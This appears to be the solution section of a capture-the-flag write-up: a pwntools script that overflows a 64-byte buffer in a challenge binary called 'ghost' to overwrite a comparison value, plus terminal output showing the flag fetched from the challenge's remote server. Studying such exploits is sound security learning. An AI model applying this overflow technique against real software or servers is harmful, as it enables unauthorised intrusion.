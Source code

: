 ### Solution

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

exe = './ghost'
elf = context.binary = ELF(exe)
context.log_level = 'INFO' # 'DEBUG'


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("139.144.184.150", 4000)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

offset = 64
value = 0x44434241 # Compare Value
payload = flat(
    b"\x90" * offset,
    pack(value)
)
io.recvuntil(b"Mansion!") # Recieve Strings Till "Mansion!"
io.recvline() # Code: ...
io.sendline(payload) # Send Code
info(io.recvline().decode().strip()) # Profit
io.close()
```

```bash
└─$ py solve.py REMOTE 
[+] Opening connection to 139.144.184.150 on port 4000: Done
[*] ghost code: BDSEC{You_have_been_haunted_by_a_ghost!}
[*] Closed connection to 139.144.184.150 port 4000
```
